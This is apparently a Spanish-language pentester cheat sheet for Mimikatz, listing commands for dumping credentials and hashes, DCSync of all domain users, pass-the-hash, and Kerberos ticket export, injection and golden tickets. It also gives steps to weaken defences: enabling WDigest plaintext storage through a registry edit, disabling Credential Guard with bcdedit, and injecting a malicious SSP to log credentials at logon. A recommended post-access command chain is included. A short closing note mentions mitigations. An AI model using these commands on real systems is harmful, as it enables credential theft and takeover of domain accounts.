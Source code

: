 # Mimikatz

## Comandos básicos
`privilege::debug`
- Eleva privilegios para acceder a procesos protegidos del sistema.

`token::elevate`
- Eleva el token del proceso actual a SYSTEM (si es posible).

`version`
- Muestra la versión de Mimikatz y detalles del sistema operativo.

## Dumpear creds
`sekurlsa::logonpasswords`
- Lista todas las sesiones activas y sus credenciales en memoria (incluye contraseñas y hashes).

`sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:NTHASH /run:COMMAND`
- Inicia un proceso autenticado usando Pass the Hash.

`lsadump::sam`
- Extrae hashes NTLM y LM de cuentas locales desde el archivo SAM.

`lsadump::lsa /patch`
- Extrae secretos LSA del sistema, como contraseñas de servicios y claves de dominio.

`lsadump::dcsync /user:USERNAME`
- Simula una replicación de controlador de dominio (DCSync) para obtener hashes de un usuario específico.

`lsadump::dcsync /all /csv`
- Extrae hashes de todos los usuarios del dominio y los exporta en formato CSV.


## Intentar habilitar WDigest para almacenar credenciales en texto plano
- `reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f`
    - privilege::debug
    - sekurlsa::logonpasswords



## Kerberos

`kerberos::list /export`
- Lista los tickets Kerberos disponibles en memoria y los exporta a archivos .kirbi.

`kerberos::ptt FILE.kirbi`
- Inyecta un ticket Kerberos en la sesión actual.

`kerberos::golden`
- Genera un Golden Ticket para autenticarse como cualquier usuario en el dominio.

### Seguidilla de comandos al conseguir mimikatz recomendada
`.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache""sekurlsa::ekeys" "exit"`

## Windows Credential Guard

Windows Credential Guard es una característica de seguridad introducida por Microsoft para proteger credenciales sensibles almacenadas en memoria. Cuando está habilitada, el proceso LSASS (Local Security Authority Subsystem Service) utiliza un entorno aislado llamado LSAISO.exe (LSA Isolated) que opera en un nivel de confianza superior (VTL1) al del sistema operativo normal (VTL0). Esto significa que incluso con privilegios de SYSTEM, no se puede acceder directamente a las credenciales protegidas.

### Limitaciones de Mimikatz con Credential Guard
- **Usuarios no locales**: Credential Guard está diseñado para proteger credenciales de usuarios de dominio, mientras que las credenciales de usuarios locales aún pueden ser extraídas.
- **Credenciales cifradas**: Las credenciales de dominio almacenadas en LSASS están cifradas y no son accesibles directamente.

### Deshabilitar Credential Guard
Para deshabilitar Credential Guard y permitir que Mimikatz acceda a las credenciales en memoria:
1. Ejecutar `bcdedit /set hypervisorlaunchtype off` para deshabilitar el Hypervisor.
2. Reiniciar el sistema.

### Alternativa: Captura de credenciales en texto plano
Si no es posible deshabilitar Credential Guard, se puede usar el módulo `misc::memssp` de Mimikatz para interceptar credenciales en texto plano durante el inicio de sesión:
1. Inyectar el SSP malicioso con `misc::memssp`.
2. Esperar a que un usuario inicie sesión en el sistema.
3. Revisar el archivo de registro generado en `C:\Windows\System32\mimilsa.log` para obtener las credenciales capturadas.

### Consideraciones finales
Credential Guard es una mitigación efectiva contra ataques basados en credenciales, pero no es infalible. Los atacantes pueden recurrir a técnicas como la inyección de SSP para capturar credenciales en texto plano durante el inicio de sesión. Es importante implementar medidas adicionales, como el uso de autenticación multifactor y la segmentación de redes, para reducir el riesgo de compromisos.

